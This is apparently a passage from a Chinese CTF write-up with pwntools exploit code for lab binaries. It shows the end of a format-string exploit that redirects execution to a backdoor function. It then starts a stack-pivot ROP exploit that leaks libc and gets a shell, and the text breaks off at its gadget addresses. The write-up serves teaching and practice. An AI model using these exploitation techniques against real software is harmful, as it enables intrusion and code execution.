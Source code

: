 ```python
    ret_addr = int(io.recv(12), 16) + 0x18
    success(hex(ret_addr))

    ret_addr = ret_addr & 0xffff
    backdoor = elf.symbols['b2c4do0r']

    pad = '%c' * 13 + f'%{ret_addr - 13}c%hn'
    pad += f'%{((ret_addr + 0xff) & ~0xff) + (backdoor & 0xff) - ret_addr}c%{0x27 + 6}$hhn'
    pad = pad.encode()
    # DEBUG()
    io.sendlineafter(b'chance', pad)
    
    pass

try:
    exp()
    io.interactive()
finally:
    rm_core()
```

## 栈的奇妙之旅

> 传说中只要让内存另一边的“栈”现身在人间，就可以获得无穷的力量。你能把他请出来吗？
>
> - 栈只能在栈区上吗？
> - 本题要求对栈的理解较高，要有大量动态调试的心理准备

预期难度：Hard

依然是板子题，需要熟悉汇编`leave ; ret`。栈迁移 2 次

- 第一次将栈转移到 bss 段上，并 leak libc
- 第二次 getshell

**exp**

```python
#! /usr/bin/env python3.8
from pwn import *
from ctools import *

context(os="linux", arch="amd64")
TMUX_TERMINAL()
# context.log_level = "debug"

elf_path = './pwn'
libc_path = './libc.so.6'

init_elf_with_libc(elf_path, libc_path)
DEBUG = lambda script = '': gdb.attach(io, gdbscript=script)

conn_context(host='127.0.0.1', port=9999, level=LOCAL, elf=elf_path)

elf = ELF(elf_path)
libc = ELF(libc_path, checksec=False)
io = conn()

def exp():
    leave = 0x4011fc
    pop_rdi = 0x4011c5

    bss = 0x404000 + 0x200
    main = 0x4011E5

```